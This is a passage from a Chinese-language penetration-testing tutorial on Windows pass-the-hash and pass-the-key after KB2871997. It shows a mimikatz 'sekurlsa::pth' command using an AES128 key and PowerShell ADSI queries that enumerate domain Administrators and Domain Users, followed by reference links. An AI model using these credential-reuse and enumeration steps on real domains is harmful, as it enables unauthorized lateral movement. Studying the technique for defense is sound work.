如图![这里写图片描述](http://drops.javaweb.org/uploads/images/328c0523a71d2500483d32239be219797b000177.jpg)

> 注：  
> dir要使用主机名 而不是ip，不然会提示用户名或密码错误

换用aes128测试：

```
mimikatz "privilege::debug" "sekurlsa::pth /user:a /domain:test.local /aes128:8cce86e4b0630f07fcf5f2110068c421" 

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/d46fb75220c8a91099e4a2ff56d59f9e244f1988.jpg)![这里写图片描述](http://drops.javaweb.org/uploads/images/55bc1dd20aec3e3aa283d5b1070dc0b574422015.jpg)

成功

> 注：  
> 如果不更换密码，aes key可以一直被用来远程连接。

0x05 补充
=====

如果域控权限分配不严格，我们在域普通用户主机下通过wmi查询可以查到当前域内的用户组

### 1、查看Administrators组

powershell执行

```
$members = @($([ADSI]”WinNT://TEST/Administrators”).psbase.Invoke(“Members”))
$members | foreach { $_.GetType().InvokeMember(“ADspath”, ‘GetProperty’, $null, $_, $null) } 

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/c03cc5bab079feb80313340e5bcfb14b69c2202e.jpg)

### 2、查看Domain Users组

```
$members = @($([ADSI]”WinNT://TEST/Domain Users”).psbase.Invoke(“Members”))
$members | foreach { $_.GetType().InvokeMember(“ADspath”, ‘GetProperty’, $null, $_, $null) }

```

如图![这里写图片描述](http://drops.javaweb.org/uploads/images/cae7dcd362508dc595a66c5c4518c4f115f80326.jpg)

0x06 小结
=====

做任何事情都一样，细节往往决定成败，只有在深入了解后我才发现aes key和kb2871997之间的关系，才解锁了远程连接的新方法。

0x07 参考链接：
=====

*   [http://www.rsaconference.com/writable/presentations/file_upload/hta-w03-pass-the-hash-how-attackers-spread-and-how-to-stop-them.pdf](http://www.rsaconference.com/writable/presentations/file_upload/hta-w03-pass-the-hash-how-attackers-spread-and-how-to-stop-them.pdf)
*   [http://www.harmj0y.net/blog/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/](http://www.harmj0y.net/blog/penetesting/pass-the-hash-is-dead-long-live-pass-the-hash/)
*   [http://www.infosecisland.com/blogview/23787-Windows-Update-to-Fix-Pass-the-Hash-Vulnerability-Not.html](http://www.infosecisland.com/blogview/23787-Windows-Update-to-Fix-Pass-the-Hash-Vulnerability-Not.html)
*   [http://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating%20Pass-the-Hash%20(PtH)%20Attacks%20and%20Other%20Credential%20Theft%20Techniques_English.pdf](http://download.microsoft.com/download/7/7/A/77ABC5BD-8320-41AF-863C-6ECFB10CB4B9/Mitigating%20Pass-the-Hash%20(PtH)%20Attacks%20and%20Other%20Credential%20Theft%20Techniques_English.pdf)
*   [http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html](http://www.pwnag3.com/2014/05/what-did-microsoft-just-break-with.html)
*   [http://www.2cto.com/Article/201405/304557.html](http://www.2cto.com/Article/201405/304557.html)
